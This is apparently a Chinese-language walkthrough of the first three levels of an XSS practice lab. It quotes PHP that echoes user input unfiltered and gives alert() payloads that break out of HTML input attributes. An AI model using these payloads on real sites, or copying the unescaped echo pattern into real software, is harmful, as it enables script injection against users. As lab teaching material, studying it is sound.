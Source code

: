 ## less 1

简单的xss漏洞 GET的传参方式 源码:

```php
ini_set("display_errors", 0);
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
```

此处可以看到 传参的时候没有做任何过滤 直接payload 最简单的xss

```php
?name=<script>alert(/xss/)</script>
```

* * *

## less 2

```php
<script>alert(/xss)</script> //先输入同样的代码 查看输入源码
<input name="keyword" value="<script>alert(/xss)</script>">
```

发现参数被传到了value里面 引号包裹起来了 这不会被执行 尝试闭合前面的引号

```php
"> <script>alert(/xss/)</script> //
```

使用"> 闭合前面预置的<" 让`<script>alert(/xss/)</script>`变成一个单独的命令执行  
//注释掉后面多余的语句 避免影响代码运行

* * *

## less 3

输入`"> <script>alert(/xss)</script>` 查看源码:

```php
<input name="keyword" value="&quot;> <script>alert(/xss)</script>">
```

发现被引号被实体化了 查看php源码

```php
<input name=keyword  value='".htmlspecialchars($str)."'>
// htmlspecialchars() 函数把预定义的字符转换为 HTML 实体
```

尝试闭合 发现当输入 ’ 的时候 前面“”会被闭合

```php
<input name="keyword" value="" qwe'="">
```

构造语句

```php
' <script>alert(/xss/)</script>
<input name="keyword" value="" &lt;script&gt;alert(="" xss="" )&lt;="" script&gt;'="">
```
